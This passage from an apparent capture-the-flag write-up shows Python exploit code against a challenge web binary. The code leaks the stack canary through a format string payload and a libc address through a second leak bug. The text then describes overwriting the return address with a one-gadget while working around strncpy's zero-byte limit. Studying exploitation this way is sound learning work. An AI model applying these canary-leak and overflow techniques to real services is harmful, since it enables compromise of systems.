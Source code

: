 Now, we get a working leaking! We can now leak canary, yay~

The complete leaking is like:

```python
def leak_canary():
    register()
    register('fuck')
    register('empty')

    number = 0x3000 + 0x30 # v1 <- remote
    payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote

    submit(payload, user='fuck')
    submit('a' * 0x100)
    submit('a' * (0x10), user='fuck')
    view_submit(user='empty')
```

And libc leaking is quite illustrative, there's no libc address found on the stack, but fortunately we have another leaking bug, the `comment` leaking. By using the `comment` leaking, we get the libc address:

```python
def leak_libc():
    register()
    for i in range(10):
        submit('a'.ljust(0x1000, 'b'), False)
    view_submit()


    submit('a')
    res = view_submit()
    text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">'
    idx = res.content.find(text_start) + len(text_start) + 1
    content = res.content[idx:].strip(b' ').split(b'\n')[0]
    libc_addr = u64(content.ljust(8, b'\x00'))
    libc_base = libc_addr - 0x1ebb61
    print(hex(libc_addr))
    print(hex(libc_base))
```

Note that the offset used to calculated libc_base is not stable.. I found at least three offsets, it can be inspected by last three digits. As for now I still remember `0x261` and `0xb61` possible. You can debug to find out the offset.

Now we have libc address and canary, and we have a stack overflow. Are we done? No!

The stack overflow is caused by `strncpy`, and it cannot contain any zeros. But there's zero byte in canary, what should we do?

For me, I used the reverse writing trick, where the first `tmp1` stack overflow writes the canary without zero byte and the return address (one gadget) and then, the `tmp2` is used to set the zero. This worked. But the problem is, let's take a look at the one gadgets we found (we cannot have a full rop beause of zero byte limit):
